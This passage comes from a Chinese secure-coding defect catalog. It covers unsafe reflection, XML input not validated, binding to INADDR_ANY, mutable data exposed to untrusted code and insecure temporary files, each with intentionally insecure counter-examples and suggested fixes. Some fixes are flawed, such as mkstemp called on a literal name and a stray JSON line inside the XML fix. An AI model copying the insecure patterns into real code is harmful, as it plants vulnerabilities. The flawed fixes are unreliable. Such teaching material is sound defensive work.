    }

    public static void safeMethod() {
        System.out.println("This is a safe method.");
    }

    // 其他方法...
}
```

**修复建议**
1.输入验证：在程序中对所有外部输入进行严格的验证，确保输入符合预期的格式和范围。
2.使用白名单机制：限制反射只能访问预定义的、安全的类和方法，拒绝所有不在白名单中的输入

#### CWD-1612-000 不安全的反射

#### CWD-1612-001 【JDK】使用java.lang.Class类的forName方法加载类时，受控的类名字符串可被恶意篡改成指定的类进行利用，造成不安全反射的问题

#### CWD-1612-002 【JDK】使用java.lang.ClassLoader类的loadclass方法加载类时，受控的类名字符串可被恶意篡改成指定的类进行利用，造成不安全反射的问题

#### CWD-1612-003 【Spring】通过org.springframework.beans.factory.BeanFactory的getBean方法可获取任意对象并执行，造成不安全反射

**业界缺陷**

- [CWE-470: Use of Externally-Controlled Input to Select Classes or Code ('Unsafe Reflection')](https://cwe.mitre.org/data/definitions/470.html)
---

# CWD-1613 抛出过多的异常

**描述**
方法抛出太多异常，会增加上层调用方法的异常处理工作量，并表明方法承担了过多的职责。这样不仅会使代码变得难以维护和 debug，还会增加系统的复杂度。建议一个方法不应抛出超过5种异常，以确保代码的简洁性、可维护性和可读性。

**语言: **CPP,JAVA,PYTHON

**严重等级**
信息

**cleancode特征**
可读

**缺陷防护全景**
**软件实现设计**
- 策略1：明确系统中的异常体系
  在软件设计阶段，制定明确的异常体系，对各种场景使用的异常类型进行明确定定义。

**编码**
- 策略1：遵循编码规范
  函数的功能要简短，避免写超大函数；
  方法涉及异常时，要结合系统异常体系设计，合理考虑应该抛出那类异常；
  对于底层方法抛出的异常，要考虑清楚异常应该在本函数内部消减还是交由上层函数处理？

**代码检查**
- 策略1：静态分析工具
  对一个方法中抛出超多阈值类别的异常类别场景进行预警，阈值支持可配。

**示例**
**案例1: 方法抛出超过5种异常**
**语言: **JAVA

**描述**
函数抛出的异常种类超过5种

**反例**
```java
public void doSomething()
    throws MyBizException, ParseException, IOException, DeriveException, CipherException, HmacException {
    
}
```

**正例**
```java
public void doSomething() throws MyBizException, ParseException, IOException {
    ...
}
```

**修复建议**
结合业务逻辑对方法抛出的异常进行整合。

#### CWD-1613-000 抛出过多的异常

#### CWD-1613-001 抛出多个异常，控制程序处理流程

---

# CWD-1616 注解使用不当

**描述**
在编程中，注解使用不当可能会导致代码难以理解和维护。以下是一些常见的注解使用不当的情况以及如何避免这些问题：


1. **过度注释**：过多的注释会使代码显得冗长且难以阅读。应该只对那些复杂的逻辑或非直观的操作进行注释。2. **不准确的注释**：如果注释与代码的实际行为不符，这会导致误解和错误。确保所有的注释都是最新的，并且准确地描述了代码的功能。3. **缺乏更新**：当修改代码时，忘记更新相关的注释也是一个常见问题。每次修改代码后，都应该检查并更新相关的注释。4. **使用注释代替重构**：有时候，人们会通过添加注释来解释为什么某些代码是必要的，而不是重构代码使其更清晰。尽量使代码本身易于理解，减少不必要的注释。5. **滥用注解**：在一些编程语言中，如Java，注解可以用来标记类、方法等。滥用这些注解（例如，为每个方法都添加不必要的注解）会使代码变得混乱。
**语言: **CPP,JAVA,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1616-000 注解使用不当

---

# CWD-1617 配置不良实践

**描述**
【注意】临时缺陷名，将会废弃，新规则禁止往此类中分。各种配置相关的要求及建议、未遵从会导致各种问题，暂时归为此类（不是太准确，如发现有更合适的可以归类缺陷请反馈）

**语言: **JAVASCRIPT,TYPESCRIPT,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1617-000 配置不良实践

---

# CWD-1618 YANG不良实践

**描述**
YANG编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **YANG

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1618-000 YANG不良实践

---

# CWD-1619 REACT不良实践

**描述**
REACT编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1619-000 REACT不良实践

---

# CWD-1620 YAML不良实践

**描述**
YAML编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1620-000 YAML不良实践

---

# CWD-1622 输入的语法合法性验证不当

**描述**
产品预期接收格式正确（即符合特定语法规则）的输入，但未能有效验证或错误地验证输入是否符合语法规范。通常，系统预期复杂的输入遵循特定语法规则，这些规则可能隐含在输入数据本身中，或通过元数据（如消息头）显式声明。此类语法可能涉及数据交换格式、标记语言，甚至编程语言。若未对不可信输入进行正确的语法验证，攻击者可能引发解析失败、触发意外错误，或暴露潜在的隐蔽漏洞——这些漏洞在输入符合语法规范时可能无法被直接利用。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：输入验证 `推荐`
  有效性：高
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 对输入的XML语法合法性验证不当**
**语言: **JAVA

**描述**
加载并解析一个 XML 文件，代码在加载 XML 文件时，未对其进行 XML Schema 或 DTD 校验。

**反例**
```java
try {
    // 创建解析器工厂
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    
    // 关键风险点：显式禁用验证
    factory.setValidating(false);  // 关闭DTD/Schema验证
    
    // 解析未经验证的XML文件
    c_dom = factory.newDocumentBuilder().parse(xmlFile); 
} catch (ParserConfigurationException e) {
    logger.error("安全配置失败", e);
} catch (SAXException e) {
    logger.warn("检测到恶意XML结构", e);
}
```

**正例**
```java
try {
    // 创建解析器工厂
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    
    // 解决方案1：启用DTD验证（基础防护）
    factory.setValidating(true); 
    
    // 解决方案2：彻底禁用DTD（推荐）
    factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    
    // 解决方案3：启用XML Schema验证
    factory.setNamespaceAware(true);
    Schema schema = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI).newSchema(new File("schema.xsd"));
    factory.setSchema(schema);
    // JSON: 使用严格模式解析器
    JsonParser parser = Json.createParser(new StringReader(json));

    // 解决方案4：使用OWASP推荐的防御配置（推荐）
    factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
    factory.setXIncludeAware(false);
    
    // 解析验证的XML文件
    c_dom = factory.newDocumentBuilder().parse(xmlFile); 
} catch (ParserConfigurationException e) {
    logger.error("安全配置失败", e);
} catch (SAXException e) {
    logger.warn("检测到恶意XML结构", e);
}
```

**修复建议**
对外界的输入的xml进行验证，包括但不限于：
- 启用DTD验证（基础防护）
- 彻底禁用DTD（推荐）
- 启用XML Schema验证
- 使用OWASP推荐的防御配置（推荐）

#### CWD-1622-000 输入的语法合法性验证不当

#### CWD-1622-001 nlohmann::json库异常处理

**业界缺陷**

- [CWE-1286: Improper Validation of Syntactic Correctness of Input](https://cwe.mitre.org/data/definitions/1286.html)
---

# CWD-1623 使用不正确的锁对象类型

**描述**
在多线程编程中，使用不正确的锁对象类型可能会导致程序出现各种问题，比如死锁、竞态条件等。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 使用可被重用的对象锁**
**语言: **JAVA

**描述**
如果使用可被重用的对象作为同步对象，容易导致不同的共享变量实际依赖了同一个锁，无法实现符合预期的同步效果。常见的可被重用的对象包括Boolean、封包的Integer对象、String常量等。

**反例**
```java
public class SomeSharedResource {
    private final String lock = "lock";

    public void updateResource() {
        synchronized (lock) {
            // 更新共享的资源
            ...
        }
    }
}
```

**正例**
```java
public class SomeSharedResource {
    private final Object lock = new Object();

    public void updateResource() {
        synchronized (lock) {
            // 更新共享的资源
            ...
        }
    }
}
```

**修复建议**
使用明确的锁对象。

#### CWD-1623-000 使用不正确的锁对象类型

#### CWD-1623-001 锁类型选错

---

# CWD-1624 绑定不受限制的IP地址

**描述**
在服务器程序中，使用bind函数时，如果将地址设置为INADDR_ANY，服务器会监听所有可用的网络接口。这种做法虽然方便，但可能存在安全隐患，因为攻击者可以利用所有接口进行攻击，包括不应该暴露的内部接口。建议通过绑定特定IP地址、使用防火墙和安全组、采用网络分段或最小权限原则等手段来避免。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.绑定特定IP地址：在设计服务器程序时，确保只绑定到需要暴露的IP地址，避免使用INADDR_ANY。
  2.网络分段：将服务器放在安全的网络段，限制不必要的网络连接。
  3.最小权限原则：确保服务器仅在必要时开放特定接口。

**编码**
- 策略：
  1.使用inet_pton绑定特定IP地址：避免使用INADDR_ANY，而是使用inet_pton绑定到特定的IP地址。
  2.配置防火墙规则：在代码中或系统配置中，限制访问服务器的IP范围。
  3.异常处理：在绑定操作中添加异常处理机制，确保在出现意外情况时程序能够优雅地处理，避免崩溃或泄露敏感信息。

**开发者测试**
- 策略：
  1.编写单元测试：在测试中，验证服务器程序是否正确绑定到特定的IP地址，而不是所有接口。
  2.使用安全测试工具：在测试过程中，使用安全测试工具（如Nmap、 Nessus）模拟攻击，检测服务器暴露的接口。
  3.手动测试绑定逻辑：在测试中，显式测试绑定逻辑，确保其行为符合预期。
  4.测试异常情况：在测试中，模拟网络配置变化或绑定失败的情况，确保服务器程序在异常情况下仍能正确处理。

**代码Review**
- 策略：
  1.检查绑定逻辑：在代码审查过程中，检查所有bind函数调用是否都有严格的IP地址限制，避免使用INADDR_ANY。
  2.检查防火墙配置：确保服务器程序或系统配置中，防火墙规则限制了访问的IP范围。
  3.检查网络分段：确保服务器程序所在的网络段是安全的，避免不必要的接口暴露。
  4.检查最小权限原则：确保服务器程序仅在必要时开放特定接口，遵循最小权限原则。

**代码检查**
- 策略：
  1.设置代码检查规则检测绑定逻辑：使用静态分析工具工具检测所有bind函数调用是否都有严格的IP地址限制，避免遗漏。

**集成测试**
- 策略：
  1.监控服务器绑定的接口：在集成测试中，监控服务器程序绑定的接口，确保没有不受限制的IP地址绑定。

**示例**
**案例1: 绑定不受限制的IP地址**
**语言: **C

**描述**
风险代码中，服务器程序使用INADDR_ANY绑定到所有可用的IP地址，导致所有网络接口都暴露在外。

**案例分析**
在风险代码案例中，服务器程序使用INADDR_ANY绑定到所有可用的IP地址，导致所有网络接口都暴露在外。攻击者可以利用任何接口发起攻击，包括内部网络中的接口，这可能违反安全策略，增加被攻击的风险

**反例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int sockfd;
    struct sockaddr_in server_addr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    // 绑定到所有可用的IP地址
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY; // 未指定明确的IP地址
    server_addr.sin_port = htons(8080);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("bind");
        exit(EXIT_FAILURE);
    }

    listen(sockfd, 3);
    printf("Server is listening on port 8080...\n");

    // 等待连接...
    while(1) {
        // 处理连接...
    }

    close(sockfd);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int sockfd;
    struct sockaddr_in server_addr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    // 绑定到特定的IP地址，例如192.168.1.100
    server_addr.sin_family = AF_INET;
    if (inet_pton(AF_INET, "192.168.1.100", &server_addr.sin_addr) <= 0) {
        perror("inet_pton");
        exit(EXIT_FAILURE);
    }
    server_addr.sin_port = htons(8080);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("bind");
        exit(EXIT_FAILURE);
    }

    listen(sockfd, 3);
    printf("Server is listening on 192.168.1.100:8080...\n");

    // 等待连接...
    while(1) {
        // 处理连接...
    }

    close(sockfd);
    return 0;
}
```

**修复建议**
绑定特定IP地址：如正确案例所示，使用inet_pton绑定到特定的IP地址，限制服务器仅在指定接口上监听。

**案例2: 绑定不受限制的IP地址**
**语言: **CPP

**描述**
风险代码中，服务器程序使用INADDR_ANY绑定到所有可用的IP地址，导致所有网络接口都暴露在外。

**案例分析**
在风险代码案例中，服务器程序使用INADDR_ANY绑定到所有可用的IP地址，导致所有网络接口都暴露在外。攻击者可以利用任何接口发起攻击，包括内部网络中的接口，这可能违反安全策略，增加被攻击的风险

**反例**
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int sockfd;
    struct sockaddr_in server_addr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    // 绑定到所有可用的IP地址
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY; // 未指定明确的IP地址
    server_addr.sin_port = htons(8080);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("bind");
        exit(EXIT_FAILURE);
    }

    listen(sockfd, 3);
    printf("Server is listening on port 8080...\n");

    // 等待连接...
    while(1) {
        // 处理连接...
    }

    close(sockfd);
    return 0;
}
```

**正例**
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int sockfd;
    struct sockaddr_in server_addr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    // 绑定到特定的IP地址，例如192.168.1.100
    server_addr.sin_family = AF_INET;
    if (inet_pton(AF_INET, "192.168.1.100", &server_addr.sin_addr) <= 0) {
        perror("inet_pton");
        exit(EXIT_FAILURE);
    }
    server_addr.sin_port = htons(8080);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("bind");
        exit(EXIT_FAILURE);
    }

    listen(sockfd, 3);
    printf("Server is listening on 192.168.1.100:8080...\n");

    // 等待连接...
    while(1) {
        // 处理连接...
    }

    close(sockfd);
    return 0;
}
```

**修复建议**
绑定特定IP地址：如正确案例所示，使用inet_pton绑定到特定的IP地址，限制服务器仅在指定接口上监听。

#### CWD-1624-000 绑定不受限制的IP地址

**业界缺陷**

- [CWE-1327: Binding to an Unrestricted IP Address](https://cwe.mitre.org/data/definitions/1327.html)
---

# CWD-1625 将可变对象传递或返回给不受信任的域

**别名: **通过引用传递的可变对象

**描述**
在软件开发中，将可变对象（如动态数组、链表等）传递或返回给不受信任的域（如外部模块、第三方库或不受信任的代码）可能导致数据被篡改或意外修改。这种情况通常发生在函数返回指向内部数据结构的指针，而调用者可能在不受信任的域中修改这些数据，导致数据不一致、程序崩溃或安全漏洞。建议通过使用不可变对象、数据复制、访问控制、使用常量指针等手段避免。

**语言: **C,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.使用不可变对象：在设计数据结构时，优先使用不可变对象，防止外部修改。
  2.数据复制机制：在需要返回数据时，设计数据复制机制，确保外部代码无法修改原始数据。
  3.访问控制：设计严格的访问控制机制，限制外部代码对内部数据的访问权限。

**编码**
- 策略：
  1.返回数据的拷贝：在函数返回数据时，返回数据的拷贝，而不是原始数据的指针。
  2.使用常量指针：返回常量指针，防止外部代码修改数据。
  3.避免直接暴露内部数据：隐藏内部数据结构，通过接口控制数据的访问和修改。

**开发者测试**
- 策略：
  1.模拟不受信任的域：在测试中，模拟不受信任的域对返回数据的修改，确保原始数据不受影响。

**代码Review**
- 策略：
  1.检查数据返回逻辑：在代码审查过程中，检查所有返回数据的函数，确保返回的是拷贝而不是原始数据的指针。
  2.检查访问控制：确保外部代码无法直接访问或修改内部数据结构。
  3.检查常量指针的使用：确保返回的指针是常量指针，防止外部修改数据。

**代码检查**
- 策略：
  1.设置代码检查规则检测数据暴露：使用静态代码分析工具检测所有返回数据的函数，确保返回的是拷贝而不是原始数据的指针。

**集成测试**
- 策略：
  1.监控数据返回逻辑：在集成测试中，监控程序的数据返回逻辑，确保没有内部数据被直接暴露给外部代码。

**示例**
**案例1: 在不受信任的域中修改内部数据**
**语言: **C

**描述**
在风险代码中，getDataPointer函数返回了指向内部data数组的指针，调用者可以修改数组的内容。

**案例分析**
在风险代码案例中，getDataPointer函数返回了指向内部data数组的指针。调用者（如modifyData函数）可以修改这个数组的内容，甚至在不受信任的域中进行超出数组范围的修改，导致缓冲区溢出或其他安全问题。此外，外部代码可能通过修改指针指向其他内存区域，引发不可预测的行为。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    int* data;
    int size;
} DataArray;

DataArray* createDataArray(int size) {
    DataArray* arr = (DataArray*)malloc(sizeof(DataArray));
    arr->data = (int*)malloc(size * sizeof(int));
    arr->size = size;
    return arr;
}

// 错误：返回指向内部数据的指针
int* getDataPointer(DataArray* arr) {
    return arr->data;
}

void modifyData(int* data, int index, int value) {
    data[index] = value;
}

int main() {
    DataArray* arr = createDataArray(5);
    int* dataPtr = getDataPointer(arr);

    // 模拟不受信任的域修改数据
    modifyData(dataPtr, 2, 100); // 正常修改
    modifyData(dataPtr, 10, 200); // 可能导致缓冲区溢出

    free(arr->data);
    free(arr);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    int* data;
    int size;
} DataArray;

DataArray* createDataArray(int size) {
    DataArray* arr = (DataArray*)malloc(sizeof(DataArray));
    arr->data = (int*)malloc(size * sizeof(int));
    arr->size = size;
    return arr;
}

// 正确：返回数据的拷贝
int* getDataCopy(DataArray* arr) {
    int* copy = (int*)malloc(arr->size * sizeof(int));
    if (copy == NULL) {
        return NULL;
    }
    memcpy(copy, arr->data, arr->size * sizeof(int));
    return copy;
}

void modifyData(int* data, int index, int value) {
    data[index] = value;
}

int main() {
    DataArray* arr = createDataArray(5);
    int* dataCopy = getDataCopy(arr);

    // 模拟不受信任的域修改数据
    modifyData(dataCopy, 2, 100); // 只修改拷贝

    free(dataCopy);
    free(arr->data);
    free(arr);
    return 0;
}
```

**修复建议**
1.返回数据的拷贝：如正确案例所示，返回数据的拷贝，避免外部代码修改原始数据。
2.使用不可变对象：如果数据不需要修改，可以将其设计为不可变对象，防止外部修改。
3.访问控制：限制外部代码对内部数据的访问权限，确保只有授权代码可以修改数据。
4.使用常量指针：返回常量指针，防止外部代码修改数据。

**案例2: 在不受信任的域中修改内部缓冲区中的数据**
**语言: **JAVA

**描述**
在Java中，缓冲区（Buffer）是一个用于存储数据的容器，可以是可变的或不可变的。如果缓冲区被暴露给不受信任的代码，可能会导致数据被意外或恶意修改，从而引发安全风险。

**案例分析**
buf.duplicate()方法，创建了一个与buf共享数据的新对象，因为没有调用asReadOnlyBuffer，会导致新对象可以修改数据，如果暴露给不信任代码，则存在安全风险。

**反例**
```java
public static CharBuffer getBuffer() {

    CharBuffer buf = CharBuffer.allocate(10);
    ...

    // 不符合：返回的缓冲区可以被修改
    CharBuffer dupBuf = buf.duplicate();
    return dupBuf;
}
```

**正例**
```java
public static CharBuffer getBuffer() {

    CharBuffer buf = CharBuffer.allocate(10);
    ...

    // 符合：返回只读缓冲区，防止数据被修改
    CharBuffer readOnlyBuf = buf.duplicate().asReadOnlyBuffer();
    return readOnlyBuf;
}
```

**修复建议**
1. 使用只读缓冲区：在返回缓冲区之前，调用asReadOnlyBuffer()方法将其转换为只读缓冲区，防止数据被修改。
2. 使用不可变对象：如果数据不需要修改，可以将其设计为不可变对象，防止外部修改。
3. 控制缓冲区的生命周期：确保缓冲区只在信任的环境中使用，避免将其暴露给不受信任的代码。

#### CWD-1625-000 将可变对象传递或返回给不受信任的域

#### CWD-1625-001 将可变对象传递给不受信任的方法

#### CWD-1625-002 将可变对象返回给不受信任的调用方

---

# CWD-1627 创建具有不安全权限的临时文件

**别名: **临时文件打开不正确

**描述**
在程序中创建临时文件时，如果没有正确设置文件的权限，可能导致文件对其他用户或进程具有不安全的访问权限。攻击者可能利用这些权限读取敏感数据、篡改文件内容，甚至执行恶意代码，从而引发安全漏洞。通常通过设置安全的文件权限、使用安全的临时文件库、定期清理临时文件等手段避免。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.使用安全的临时文件库：优先使用系统提供的安全临时文件创建函数，如mkstemp，这些函数通常会自动设置安全的权限。
  2.设计严格的权限控制：在设计临时文件管理逻辑时，确保文件权限仅允许创建者访问。
  3.定期清理临时文件：设计自动清理机制，确保临时文件在使用完毕后被及时删除。

**编码**
- 策略：
  1.使用mkstemp创建临时文件：避免使用open或creat函数，改用mkstemp，确保文件权限安全。
  2.显式设置文件权限：在创建文件时，显式设置严格的权限，如S_IRUSR | S_IWUSR，确保只有创建者可以访问。
  3.删除临时文件：在程序退出前，确保删除所有临时文件，避免敏感数据残留。

**开发者测试**
- 策略：
  1.模拟恶意访问：在测试中，模拟其他用户或进程尝试访问临时文件，确保权限设置有效。
  2.测试文件清理逻辑：验证临时文件在使用完毕后是否被正确删除，避免数据残留。

**代码Review**
- 策略：
  1.检查临时文件创建逻辑：在代码审查过程中，检查所有临时文件创建操作，确保使用安全的函数和权限设置。
  2.检查文件权限：确保临时文件的权限设置为严格的仅创建者可访问。
  3.检查文件清理逻辑：确保临时文件在使用完毕后被及时删除，避免数据残留。

**编译构建**
- 策略：
  1.集成静态分析工具：在编译构建过程中，集成静态分析工具，实时检测文件创建逻辑的实现是否正确

**代码检查**
- 策略：
  1.设置代码检查规则检测不安全的文件创建：使用静态分析工具检测所有文件创建操作，确保使用安全的函数和权限设置。
  2.设置代码检查规则检测文件清理逻辑：使用静态分析工具检测临时文件在使用完毕后被删除，避免数据残留。

**集成测试**
- 策略：
  1.监控临时文件权限：在集成测试中，监控程序创建的临时文件权限，确保没有不安全的权限设置。

**示例**
**案例1: 未正确设置临时的权限**
**语言: **C

**描述**
在风险代码中，程序使用open函数创建临时文件，但未显式设置文件权限。

**案例分析**
在风险代码案例中，程序使用open函数创建临时文件，但未显式设置文件权限。默认权限0666允许其他用户读取和写入文件，这可能导致敏感数据泄露或文件被篡改。此外，程序未删除临时文件，可能在磁盘上残留敏感信息。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>

int main() {
    const char* tempFileName = "tempfile.txt";
    
    // 错误：未设置文件权限，使用默认权限
    int fd = open(tempFileName, O_CREAT | O_WRONLY, 0666);
    if (fd == -1) {
        perror("open");
        exit(EXIT_FAILURE);
    }
    
    // 写入数据到临时文件
    const char* data = "Sensitive information";
    write(fd, data, strlen(data) + 1);
    
    close(fd);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

int main() {
    const char* tempFileName = "tempfile.txt";
    
    // 正确：使用mkstemp创建安全的临时文件，并设置严格的权限
    int fd = mkstemp(tempFileName);
    if (fd == -1) {
        perror("mkstemp");
        exit(EXIT_FAILURE);
    }
    
    // 确保文件权限为仅创建者可读写
    if (fchmod(fd, S_IRUSR | S_IWUSR) == -1) {
        perror("fchmod");
        close(fd);
        unlink(tempFileName);
        exit(EXIT_FAILURE);
    }
    
    // 写入数据到临时文件
    const char* data = "Sensitive information";
    write(fd, data, strlen(data) + 1);
    
    close(fd);
    
    // 删除临时文件
    if (unlink(tempFileName) == -1) {
        perror("unlink");
        exit(EXIT_FAILURE);
    }
    
    return 0;
}
```

**修复建议**
1.使用mkstemp创建临时文件：如正确案例所示，使用mkstemp函数创建临时文件，该函数会自动设置安全的权限。
2.显式设置文件权限：在创建文件时，显式设置严格的权限，确保只有创建者可以访问。
3.删除临时文件：在使用完毕后，及时删除临时文件，避免敏感数据残留。

#### CWD-1627-000 创建具有不安全权限的临时文件

**业界缺陷**

- [CWE-378: Creation of Temporary File With Insecure Permissions](https://cwe.mitre.org/data/definitions/378.html)
---

# CWD-1628 在具有不安全权限的目录中创建临时文件

**别名: **在具有不正确权限的目录中创建临时文件

**描述**
在程序中，如果临时文件被创建在具有不安全权限的目录中，可能会导致文件被其他用户或进程访问、修改，甚至被恶意利用。攻击者可能通过这些临时文件读取敏感信息、篡改文件内容，或者利用文件权限提升自身权限，从而引发安全漏洞。通常通过使用安全的临时目录、使用安全的临时文件创建函数、定期清理临时文件等手段避免。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.使用安全的临时目录：在设计临时文件管理逻辑时，优先使用系统提供的安全临时目录，如/tmp或/var/tmp。
  2.设计严格的权限控制：确保临时文件的权限仅允许创建者访问。
  3.定期清理临时文件：设计自动清理机制，确保临时文件在使用完毕后被及时删除。

**编码**
- 策略：
  1.使用mkstemp创建临时文件：避免使用open或creat函数，改用mkstemp，确保文件权限安全。
  2.显式设置文件权限：在创建文件时，显式设置严格的权限，如S_IRUSR | S_IWUSR，确保只有创建者可以访问。
  3.删除临时文件：在程序退出前，确保删除所有临时文件，避免敏感数据残留。

**开发者测试**
- 策略：
  1.模拟恶意访问：在测试中，模拟其他用户或进程尝试访问临时文件，确保权限设置有效。
  2.测试文件清理逻辑：验证临时文件在使用完毕后是否被正确删除，避免数据残留。

**代码Review**
- 策略：
  1.检查临时文件创建逻辑：在代码审查过程中，检查所有临时文件创建操作，确保使用安全的函数和权限设置。
  2.检查文件权限：确保临时文件的权限设置为严格的仅创建者可访问。
  3.检查文件清理逻辑：确保临时文件在使用完毕后被及时删除，避免数据残留。

**编译构建**
- 策略：
  1.集成静态分析工具：在编译构建过程中，集成静态分析工具，实时检测文件创建逻辑的实现是否正确。

**代码检查**
- 策略：
  1.设置代码检查规则检测不安全的文件创建：使用静态分析工具检测所有文件创建操作，确保使用安全的函数和权限设置。
  2.设置代码检查规则检测文件清理逻辑：使用静态分析工具检测临时文件在使用完毕后被删除，避免数据残留

**集成测试**
- 策略：
  1.监控临时文件权限：在集成测试中，监控程序创建的临时文件权限，确保没有不安全的权限设置。
  2.测试异常情况：在集成测试中，模拟文件系统满或权限设置失败的情况，确保临时文件管理逻辑在极端情况下仍能正确处理。

**示例**
**案例1: 在不安全目录下创建临时文件**
**语言: **C

**描述**
在风险代码中，程序在不安全的目录/home/user/untrusted_dir/中创建临时文件，并且未显式设置文件权限。

**案例分析**
在风险代码案例中，程序在不安全的目录/home/user/untrusted_dir/中创建临时文件，并且未显式设置文件权限。默认权限0666允许其他用户读取和写入文件，这可能导致敏感数据泄露或文件被篡改。此外，程序未删除临时文件，可能在磁盘上残留敏感信息。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>

int main() {
    const char* tempDir = "/home/user/untrusted_dir/"; // 不安全的目录
    const char* tempFileName = "tempfile.txt";
    
    // 错误：在不安全的目录中创建临时文件，未设置文件权限
    char* fullPath = malloc(strlen(tempDir) + strlen(tempFileName) + 1);
    if (!fullPath) {
        perror("malloc");
